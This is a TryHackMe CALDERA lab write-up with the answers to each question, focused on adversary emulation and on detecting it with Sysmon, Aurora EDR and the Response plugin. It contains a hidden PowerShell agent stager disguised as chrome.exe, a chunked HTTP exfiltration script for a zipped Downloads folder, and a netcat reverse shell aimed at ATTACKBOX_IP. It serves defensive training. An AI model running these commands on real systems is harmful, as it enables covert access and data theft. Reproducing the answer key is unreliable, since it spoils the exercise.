| Field       | Details                                                                 |
|-------------|-------------------------------------------------------------------------|
| Room        | CALDERA                                                                 |
| Platform    | TryHackMe                                                               |
| Path        | SOC Level 2                                                             |
| Module      | Threat Emulation                                                        |
| Difficulty  | Hard                                                                    |
| Category    | Threat Emulation                                                        |
| Room Link   | [tryhackme.com/room/caldera](https://tryhackme.com/room/caldera)        |
| Author      | [OPT4RUN](https://tryhackme.com/p/OPT4RUN)                             |

---

## Overview

CALDERA is an open-source adversary emulation framework built on top of the MITRE ATT&CK framework, maintained by MITRE as an active research project. Unlike Atomic Red Team which focuses on individual atomic tests, CALDERA enables the orchestration of full attack chains through autonomous agent-based execution.

This room covers CALDERA from the **blue team perspective** — understanding how threat actors chain TTPs, how those TTPs surface in logs and EDR detections, and how the framework's Response plugin can automate incident response actions. The final task applies everything through a purple team simulation of APT41.

---

## Task 1 — Introduction

This task outlines the room's learning objectives and prerequisites. CALDERA builds on concepts from the Threat Emulation module, extending them into a full framework with autonomous capabilities for both red and blue teams.

No questions in this task.

---

## Task 2 — CALDERA Overview

### What is CALDERA?

CALDERA is an open-source framework for running autonomous adversary emulation exercises. It supports both red team operators (manual/automated TTP execution) and blue teamers (automated incident response). Every capability within CALDERA is mapped to the MITRE ATT&CK framework.

### Core Terminology

| Term | Description |
|------|-------------|
| **Agent** | A program that continuously polls the CALDERA server and executes instructions |
| **Ability** | A specific ATT&CK technique implementation executed by an agent |
| **Adversary** | A profile grouping abilities attributed to a known threat group |
| **Operation** | Runs a set of abilities against an agent group using a defined adversary profile |
| **Plugin** | Extends core CALDERA functionality |
| **Fact** | Identifiable information about a target machine, used by abilities as input |
| **Planner** | Controls the execution order of abilities during an operation |

### Agents

| Agent | Language | Contact Method |
|-------|----------|----------------|
| Sandcat | GoLang | HTTP, GitHub GIST, DNS tunnelling |
| Manx | GoLang | TCP (reverse shell) |
| Ragdoll | Python | HTML |

Agents are assigned to groups at install time. Agents in the `blue` group are accessible from the blue dashboard; all others from the red dashboard.

### Abilities and Adversaries

Each ability contains:
- Commands to execute
- Compatible platforms and executors (PowerShell, cmd, bash)
- Payloads to include
- ATT&CK tactic and technique reference

Adversary profiles group abilities to represent the known TTP set of a threat actor.



### Operations & Planners

| Planner | Behaviour |
|---------|-----------|
| Atomic | Executes abilities based on Atomic Red Team ordering |
| Batch | Executes all abilities simultaneously |
| Buckets | Groups and executes abilities by ATT&CK tactic |

### Notable Plugins

| Plugin | Purpose |
|--------|---------|
| Sandcat | Extendable GoLang agent |
| Training | Gamified CTF-style CALDERA certification |
| Response | Autonomous Incident Response plugin |
| Human | Simulates benign human activity |

---

**Q: What is the name of the agent that has the capability to communicate via HTTP, GitHub GIST, or DNS tunnelling?**
```
Sandcat
```

**Q: What functionality determines the order of abilities' execution?**
```
planner
```

**Q: What is the name of the plugin that allows the simulation of human activity?**
```
Human
```

---

## Task 3 — Running Operations with CALDERA

### Lab Setup

The exercise uses two machines:
- **AttackBox** — runs the CALDERA server
- **Victim Machine** — Windows target (RDP: `administrator` / `Emulation101!`)



The CALDERA server starts with:

```bash
cd Rooms/caldera/caldera
source ../caldera_venv/bin/activate
python server.py --insecure
```

Access the web UI at `http://ATTACKBOX_IP:8888` — credentials: `red` / `admin`.

### Deploying an Agent

Navigate to the **Agents** tab and deploy a **Manx** agent for Windows. Set the IP to your AttackBox IP (default is `0.0.0.0`) and optionally rename the implant to a realistic process name like `chrome` to blend with legitimate traffic.





The generated PowerShell command downloads the Manx binary, drops it to `C:\Users\Public\chrome.exe`, and starts it with the CALDERA server socket details. Execute this on the victim machine via RDP.

```powershell
if ($host.Version.Major -ge 3){$ErrAction= "ignore"}else{$ErrAction= "SilentlyContinue"};
$server="http://ATTACKBOX_IP:8888";
$socket="ATTACKBOX_IP:7010";
$contact="tcp";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","manx.go");
$data=$wc.DownloadData($url);
Get-Process | ? {$_.Path -like "C:\Users\Public\chrome.exe"} | stop-process -f -ea $ErrAction;
rm -force "C:\Users\Public\chrome.exe" -ea $ErrAction;
([io.file]::WriteAllBytes("C:\Users\Public\chrome.exe",$data)) | Out-Null;
Start-Process -FilePath C:\Users\Public\chrome.exe -ArgumentList "-socket $socket -http $server -contact $contact" -WindowStyle hidden;
```

Once executed, the agent appears in the Agents tab.



### Adversary Profile

Navigate to **Adversaries** and select the **Enumerator** profile. The profile contains 5 abilities. Review each ability before execution — the executor and command fields show exactly what will run on the target.





💡 Always review ability commands before running an operation. Some abilities interact with the filesystem, registry, or network in ways that may not be appropriate for all lab setups.

### Executing the Operation

Navigate to **Operations → Create Operation**. Key configuration:
- **Adversary Profile**: Enumerator
- **Group**: red (prevents execution on blue agents)
- **Obfuscation**: None



Once started, abilities execute individually and results populate in real time.



### Reviewing Results

Each completed ability shows **View Command** and **View Output** options. Use these to verify what ran and what was returned.



---

**Q: What is the default IP value shown during the configuration of an agent?**
```
0.0.0.0
```

**Q: How many abilities are included in the Enumeration profile?**
```
5
```

**Q: What is the command executed by the tasklist Process Enumeration ability?**
```
tasklist /m  >> $env:APPDATA\vmtool.log;cat $env:APPDATA\vmtool.log
```

**Q: Based on the executed operation, what is the name of the ability that did not provide an output?**
```
SysInternals PSTool Process Discovery
```

---

## Task 4 — In Through Out (Custom Attack Chain)

### Scenario

This task walks through building a custom end-to-end attack chain — from Initial Access through Exfiltration — requiring both ability modification and custom ability creation.

| Tactic | Technique | Ability |
|--------|-----------|---------|
| Initial Access | T1566.001 — Spearphishing Attachment | Download Macro-Enabled Phishing Attachment |
| Execution | T1047 — WMI | Create a Process using WMI Query and an Encoded Command |
| Persistence | T1547.004 — Winlogon Helper DLL | Winlogon HKLM Shell Key Persistence - PowerShell |
| Discovery | T1087.001 — Local Account Discovery | Identify local users |
| Collection | T1074.001 — Local Data Staging | Zip a Folder with PowerShell for Staging in Temp |
| Exfiltration | T1048.003 — Exfiltration Over Unencrypted Non-C2 Protocol | Exfiltrating Hex-Encoded Data Chunks over HTTP *(custom)* |

### Modifying Existing Abilities

Three abilities require modification before the chain can run in this environment:

**1. Download Macro-Enabled Phishing Attachment**

Original command attempts to fetch from GitHub — not reachable from the victim. Host the file locally via Python HTTP server on port 8080:

```bash
cd Rooms/caldera/http_server
python3 -m http.server 8080
```

Replace the ability command with:

```powershell
$url = 'http://ATTACKBOX_IP:8080/PhishingAttachment.xlsm'; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```



**2. Zip a Folder with PowerShell for Staging in Temp**

Original references `PathToAtomicsFolder\T1074.001\bin\Folder_to_zip` which doesn't exist on the victim. Replace with the user's Downloads directory and rename the output archive:

```powershell
Compress-Archive -Path $env:USERPROFILE\Downloads -DestinationPath $env:TEMP\exfil.zip -Force
```

Also update the cleanup script to reference `exfil.zip`.



🔴 **Malware Relevance:** Staging data into `%TEMP%` before exfiltration is a common technique. The `Compress-Archive` cmdlet is a reliable indicator when seen with `$env:TEMP` as the destination.

### Creating a Custom Ability

The exfiltration ability doesn't exist in CALDERA by default — create it from scratch.

The command reads the staged zip, hex-encodes it, splits it into 20-character chunks, and sends each chunk as a cURL GET request to the AttackBox HTTP listener. This breaks the file into a stream of small requests, making it harder to detect as a single large data transfer.

```powershell
$file="$env:TEMP\exfil.zip"; $destination="http://ATTACKBOX_IP:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."
```

| Field | Value |
|-------|-------|
| Name | Exfiltrating Hex-Encoded Data Chunks over HTTP |
| Tactic / Technique | exfiltration — T1048.003 |
| Platform / Executor | windows — psh |





### Creating the Adversary Profile

Navigate to **Adversaries → New Profile**:

| Field | Value |
|-------|-------|
| Profile Name | Emulation Activity #1 |
| Description | This profile executes six abilities from different tactics, emulating a complete attack chain. |

Add all six abilities in order using **Add Ability → Save & Add**.







### Running the Operation

Execute an operation using the **Emulation Activity #1** profile against the red group and review results per ability.







---

**Q: What is the name of the file downloaded by the first ability?**
```
PhishingAttachment.xlsm
```

**Q: What is the name of the new process spawned by the second ability?**
```
notepad.exe
```

**Q: How many accounts were identified by the fourth ability?**
```
4
```

**Q: What is the name of the directory archived by the fifth ability?**
```
Downloads
```

**Q: How many HTTP requests were made by the sixth ability?**
```
23
```

---

## Task 5 — Emulation to Detection

### Overview

With the attack chain defined, this task shifts to the blue team side — analysing what Sysmon and Aurora EDR log when **Emulation Activity #1** executes. The victim machine has both tools pre-configured.

### Sysmon Analysis

Access logs via **Event Viewer → Applications and Services → Microsoft → Windows → Sysmon**.



💡 To analyse one ability at a time, create a new operation with **Run State: Pause on Start**, then use **Run 1 Link** to execute abilities individually. Clear logs between each ability to keep analysis clean.









For PowerShell-based log analysis, use `Get-WinEvent` and the `Clear-WinEvent` module from `C:\Tools`:

```powershell
cd C:\Tools
Import-Module .\Clear-WinEvent.ps1
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | fl
Clear-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational"
```

💡 Always read Sysmon output from **bottom to top** to follow the correct execution timeline. Filter by `ParentImage: C:\Users\Public\chrome.exe` to isolate ability-generated events from background noise.

For real-time monitoring, use `PowerSiem.ps1`:

```powershell
cd C:\Tools
.\PowerSiem.ps1
```

### Aurora EDR Analysis

Aurora EDR detections appear in **Event Viewer → Windows Logs → Application**, filtered by Source: `AuroraAgent`.



Aurora uses Sigma rules. Each detection in the **Details** tab shows the matched rule name, the `Match_Strings` field indicating which IOCs triggered it, and the flagged process details.







🔴 **Malware Relevance:** `-exec bypass` in the `CommandLine` field paired with `powershell.exe` in the `Image` field is one of the most common indicators of PowerShell-based malware execution. Aurora's Sigma rule `Suspicious PowerShell Parameter Substring` is a high-signal detection for this pattern.

### Emulation Activity #1 — Detection Results







---

**Q: What is the value of the ParentImage from the first log generated by any ability?**
```
C:\Users\Public\chrome.exe
```

**Q: What is the name of the ability that generated a Sysmon Event ID 13?**
```
Winlogon HKLM Shell Key Persistence - PowerShell
```

**Q: During the execution of the first ability, what is the title of the Sigma rule that flagged the usage of Invoke-WebRequest?**
```
PowerShell Web Download
```

**Q: During the execution of the fifth ability, what is the value of the Match Strings field in Zip A Folder With PowerShell For Staging In Temp detection?**
```
'Compress-Archive ' in CommandLine, ' -Path ' in CommandLine, ' -DestinationPath ' in CommandLine, $env:TEMP\ in CommandLine
```

**Q: During the execution of the sixth ability, what is the title of the Sigma rule that flagged the usage of the string 'join \'\'; $split'?**
```
Hacktool - CrackMapExec PowerShell Obfuscation
```

---

## Task 6 — Autonomous Incident Response

### Overview

This task introduces CALDERA's **Response plugin** — the blue team counterpart to adversary emulation. Log in with `blue` / `admin` to access the blue dashboard.



### Response Plugin

The Response plugin contains abilities classified into four tactics:

| Tactic | Purpose |
|--------|---------|
| Setup | Establishes baselines for outlier detection |
| Detect | Continuously hunts for suspicious behaviour (Repeatable enabled) |
| Response | Executes containment actions (kill process, block firewall, delete file) |
| Hunt | Searches for IOCs via logs or file hashes |





### Defender Profiles

Four profiles are available: **Incident Responder**, Elastic Hunter, Query Sysmon, Task Hunter. This task focuses on **Incident Responder**.



The profile contains ability chains where detection abilities **unlock** facts consumed by response abilities:

| Detection Ability | Unlocks | Response Ability |
|-------------------|---------|-----------------|
| Find unauthorized processes | `remote.port.unauthorized` / `host.pid.unauthorized` | Enable Outbound TCP/UDP firewall rule |
| Find atypical open ports | — | Kill Rogue Process |
| Hunt for known suspicious files | — | Delete known suspicious files |







The **Find unauthorized processes** ability uses `Get-NetTCPConnection` to look for outbound connections on unauthorised ports and returns the owning PID:

```powershell
Get-NetTCPConnection -RemotePort "7010" -EA silentlycontinue | where-object { write-host $_.OwningProcess }
```







### Sources and Facts

Navigate to **Fact Sources → response source**. The `remote.port.unauthorized` fact is pre-configured with values `7010`, `7011`, `7012`. Additional ports (e.g. `4444`) can be added to extend detection coverage.





With four port values configured, the ability executes four times — once per port value.

### Incident Response Scenario

To trigger the Incident Responder profile, establish a reverse shell from the victim to the AttackBox:

**AttackBox:**
```bash
nc -lvp 4444 -s $(hostname -I | awk '{print $1}')
```

**Victim (PowerShell):**
```powershell
cd C:\Tools
.\nc.exe ATTACKBOX_IP 4444 -e cmd.exe
```

This creates an outbound TCP connection on port 4444 — one of the unauthorised ports in the response source fact.

### Deploying a Blue Agent

Navigate to **Agents → Deploy an Agent**, select **Sandcat**, and set the IP to your AttackBox IP. Execute the deployment commands on the victim machine.





### Running the Blue Operation

Navigate to **Operations → Create Operation**:

| Field | Value |
|-------|-------|
| Adversary (Defender) | Incident Responder |
| Fact Source | response |
| Group | blue |
| Planner | batch |





### Results











🔴 **Malware Relevance:** The automated response chain demonstrates a key defensive concept — detection abilities gate response actions through facts. No kill/block action fires until the detection ability confirms a suspicious process exists and returns its PID. This mirrors best practices in SOAR playbook design.

---

**Q: How many instances of the Find unauthorized processes ability have failed during its first batch of execution?**
```
3
```

**Q: Upon checking the Find unauthorized processes ability results, what is the name of the fact that returned a value aside from remote.port.unauthorized?**
```
host.pid.unauthorized
```

**Q: What is the group value of the new firewall rule created by Enable Outbound TCP/UDP firewall rule ability?**
```
Caldira
```

**Q: Aside from Enable Outbound TCP/UDP firewall rule, what is the name of another response ability that was executed after detecting the suspicious process?**
```
Kill rogue process
```

**Q: What is the name of the PowerShell cmdlet executed by the ability referred to in Q4?**
```
Stop-Process
```

---

## Task 7 — Case Study: Emulating APT41

### Threat Actor Background

APT41 (aka Double Dragon) is a Chinese state-linked threat group active since 2012, attributed to the Ministry of State Security (MSS). Uniquely, they operate across both cyber espionage and financially motivated intrusions — targeting sectors including Healthcare, Telecommunications, and Technology.

### Purple Team Exercise

The following TTP chain was emulated to test defences against known APT41 techniques:

| Tactic | Technique | Ability |
|--------|-----------|---------|
| Initial Access | T1566.001 | Download Macro-Enabled Phishing Attachment |
| Execution | T1047 | Create a Process using obfuscated Win32_Process |
| Execution | T1569.002 | Execute a Command as a Service |
| Persistence | T1053.005 | Powershell Cmdlet Scheduled Task |
| Persistence | T1136.001 | Create a new user in a command prompt |
| Defense Evasion | T1070.001 | Clear Logs (using wevtutil) |
| Discovery | T1083 | File and Directory Discovery (PowerShell) |
| Collection | T1005 | Find files |

Create a new adversary profile, add all eight abilities, run the operation against the red agent, and analyse detections in Sysmon and Aurora EDR.

### Results

**T1566.001 — Download Macro-Enabled Phishing Attachment**



**T1047 — Create a Process using obfuscated Win32_Process**



🔴 **Malware Relevance:** `WmiPrvSE.exe` as a `ParentImage` is a strong indicator of WMI-based process spawning. Legitimate software rarely spawns child processes from `WmiPrvSE.exe`, making this a reliable detection signal.

**T1569.002 — Execute a Command as a Service**



**T1053.005 — Powershell Cmdlet Scheduled Task**



**T1136.001 — Create a new user in a command prompt**



**T1070.001 — Clear Logs**



🔴 **Malware Relevance:** Log clearing via `wevtutil` is a near-universal post-exploitation step. Any detection of `wevtutil cl` or `Clear-EventLog` should be treated as a high-priority alert.

**T1083 — File and Directory Discovery (PowerShell)**



**T1005 — Find files**



---

**Q: Aside from the ps1 file, what is the name of the file created by the execution of "Download Macro-Enabled Phishing Attachment"?**
```
C:\Users\Administrator\AppData\Local\Temp\2\PhishingAttachment.xlsm
```

**Q: What is the MatchString value of the Sigma rule that flagged the execution of Create a Process using obfuscated Win32_Process?**
```
\WmiPrvSE.exe in ParentImage
```

**Q: What is the name of the service created by Execute a Command as a Service?**
```
ARTService
```

**Q: Aside from the ps1 file, what is the name of the file created by the execution of "Powershell Cmdlet Scheduled Task"?**
```
C:\Windows\System32\Tasks\AtomicTask
```

**Q: Aside from the PowerShell detections, what is the name of the Sigma rule that flagged the execution of Create a new user in a command prompt?**
```
New User Created Via Net.EXE
```

**Q: What is the name of the Sigma rule that flagged the execution of Clear Logs?**
```
Suspicious Eventlog Clear or Configuration Change
```

**Q: What command is used by File and Directory Discovery (PowerShell) during its execution?**
```
ls -recurse; get-childitem -recurse; gci -recurse
```

**Q: How many times did the Find files ability execute?**
```
3
```

---

## Task 8 — Conclusion

CALDERA is often perceived as a red team tool, but this room demonstrated its full value from the blue team perspective. The key capabilities covered:

- **Core framework** — agents, abilities, adversaries, operations, planners, and facts as the building blocks of emulation
- **Custom attack chains** — modifying existing abilities and creating new ones to fit specific lab or network constraints
- **Emulation to detection** — correlating executed TTPs with Sysmon event IDs and Aurora EDR Sigma rule detections
- **Autonomous Incident Response** — the Response plugin's detect → unlock → respond chain mirrors real SOAR playbook logic
- **APT41 purple team exercise** — applying the full methodology against a real threat actor's TTP set

The framework's strength for blue teamers lies in the feedback loop: run a TTP, observe what logs it generates, validate that your detections fire, and iterate. CALDERA operationalises this loop at scale.

---

*Write-up by [OPT4RUN](https://tryhackme.com/p/OPT4RUN)*